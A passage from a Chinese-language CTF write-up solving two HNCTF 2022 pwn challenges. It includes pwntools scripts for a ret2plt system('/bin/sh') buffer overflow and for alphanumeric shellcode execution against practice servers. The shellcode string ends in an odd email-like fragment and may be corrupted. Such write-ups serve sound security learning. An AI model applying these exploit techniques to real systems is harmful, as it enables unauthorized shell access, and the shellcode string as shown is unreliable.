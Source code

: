 其中使用了系统自带的shellcraft，一定要设置context，不然就会无回显或者报错，建议类似的shellcode都要加context

### \[HNCTF 2022 Week1\]ezr0p32

check一下

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701776670-image.png)

主要的函数内容

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701776746-image.png)

经过简单分析，可以看到plt段存有system的地址，

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701777037-image.png)

而且在bss段也有可写入的buf区间

这道题的步骤就是在第一个read函数处写入/bin/sh，然后在第二个read读取是时候溢出到plt的system地址，然后拿到shell

编写脚本👇

```
from pwn import *
io=remote('node5.anna.nssctf.cn',28772)
system_addr=0x080483D0
bss_addr=0x804a080

payload='/bin/sh'
io.sendafter('please tell me your name\n',payload)

payload=b'a'*(28+4)+p32(system_addr)+p32(0)+p32(bss_addr)
io.sendafter("now it's your play time~\n",payload)

io.interactive()

```

### \[HNCTF 2022 Week1\]safe\_shellcode

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701778197-image.png)

源码是这样的👇

![](https://www.hyhforever.top/wp-content/uploads/2023/12/1701778339-image.png)

其中对输入的s有ascii值的判断，大概就是必须是可见字符，不然就exit

然后把s推到buff里，执行buff

编写脚本👇

```
from pwn import *
io=remote('node5.anna.nssctf.cn',28428)
context(log_level='debug',arch='amd64', os='linux')
shellcode='Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a071N00gao@fossa'

io.send(shellcode)
io.interactive()
```
